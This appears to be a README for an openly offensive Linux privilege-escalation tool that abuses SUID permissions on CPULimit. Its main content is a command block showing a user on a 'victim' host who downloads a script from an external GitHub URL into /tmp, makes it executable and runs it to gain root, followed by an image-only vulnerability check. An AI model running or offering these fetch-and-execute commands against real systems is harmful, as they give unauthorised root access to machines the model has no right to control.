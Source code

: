 # Linux Privilege Escalation `Abusing SUID Permissions `


```cmd
user@victim:~$ cd /tmp
user@victim:/tmp$ wget https://raw.githubusercontent.com/d4t4s3c/CPULimit-Linux-Privilege-Escalation/master/suid_root.sh
user@victim:/tmp$ chmod +x suid_root.sh 
user@victim:/tmp$ ./suid_root.sh 
```

**Vulnerability Check**

`YES`

![](/01.png)

`NO`

![](/02.png)
